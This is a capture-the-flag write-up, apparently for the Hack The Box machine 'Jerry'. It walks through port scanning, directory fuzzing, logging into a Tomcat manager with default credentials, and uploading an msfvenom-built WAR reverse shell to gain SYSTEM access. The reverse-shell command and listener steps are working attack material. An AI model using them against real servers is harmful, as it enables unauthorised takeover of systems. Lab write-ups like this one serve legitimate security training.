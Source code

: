 <h2>Recon</h2>

<h3>PortScanning</h3>

>command: sudo -A -p- -T4 -v

```
# Nmap 7.93 scan initiated Mon Feb 13 16:19:03 2023 as: nmap -A -v -T4 -p- -oN jerry 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.004 days (since Mon Feb 13 16:17:00 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incremental

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   192.77 ms 10.10.14.1
2   195.75 ms 10.10.10.95

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 13 16:23:25 2023 -- 1 IP address (1 host up) scanned in 261.65 seconds
```
We have only one port opened, this port runs http. So our enumeration today will be focused on port 8080.




<h2>Enumeration</h2>

Going to the webpage should give you this

![image](https://user-images.githubusercontent.com/67879936/222948686-e2712196-16e6-4250-b11c-c144c327653d.png)

Lets go aehad and fire up our directory searching tool

>command: ffuf -u "http://10.10.10.95:8080/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/jerry]
└─$ ffuf -u "http://10.10.10.95:8080/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.95:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 11398, Words: 4248, Lines: 202, Duration: 307ms]
aux                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 212ms]
docs                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 243ms]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 214ms]
favicon.ico             [Status: 200, Size: 21630, Words: 19, Lines: 22, Duration: 217ms]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 233ms]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 254ms]
:: Progress: [32298/32298] :: Job [1/1] :: 145 req/sec :: Duration: [0:03:22] :: Errors: 0 ::
```
We have lots of directories here, but our main focus will be the  ```/manager``` directory. Lets navigate to that directory

![image](https://user-images.githubusercontent.com/67879936/222948604-1a15f2ef-dceb-420a-846e-d5551d311ef8.png)

We have to provide a username and a password here, after a little research I actually found the right one

```username:admin```        ```password:admin```

![image](https://user-images.githubusercontent.com/67879936/222948812-759fb7a9-69c7-4757-a27d-4d6b3f0c915f.png)

cool, we are logged in. Also, we can see we are provided with a username and password. We will use these creds to login to the ```/manager``` directory instead of using ```admin:admin```

```username:tomcat```     ```password:s3cret```

To log in again I'll advice you either our browser's history or you use another browser

![image](https://user-images.githubusercontent.com/67879936/222948885-30f62486-ab6b-4cea-ab47-e8734a5a66b5.png)

cool, we are logged in as user _tomcat_, scrolling down the webpage, you'll find this

![image](https://user-images.githubusercontent.com/67879936/222948920-3d220d58-19dd-448f-8192-03a963102661.png)

we are allowed to upload a ```.war``` file, we are going to exploit this feature.




<h2>Exploitation</h2>

We'll be creating a malicious ```.war``` file using msfvenom

>command: msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.49.53 LPORT=4444 -f war > runme.war

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/jerry]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f war > runme.war
Payload size: 1099 bytes
Final size of war file: 1099 bytes

                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/jerry]
└─$ ls
jerry  runme.war
```
Now, lets go ahead and upload the malicious .war file

![image](https://user-images.githubusercontent.com/67879936/222949165-7066a957-1d4b-4382-a44c-bce2d62e57d3.png)

After uploading, ensure you set your netcat listner before clicking on the uploaded malicious .war file

>command: rlwrap nc -nvlp 4444

![image](https://user-images.githubusercontent.com/67879936/222949253-0bcfdfad-1231-4f40-a6dd-20fa8042d5e3.png)

Boom!!! We got a shell as user ```nt authority\system```

That will be all for today
<br> <br>
[Back To Home](../../index.md)

 





























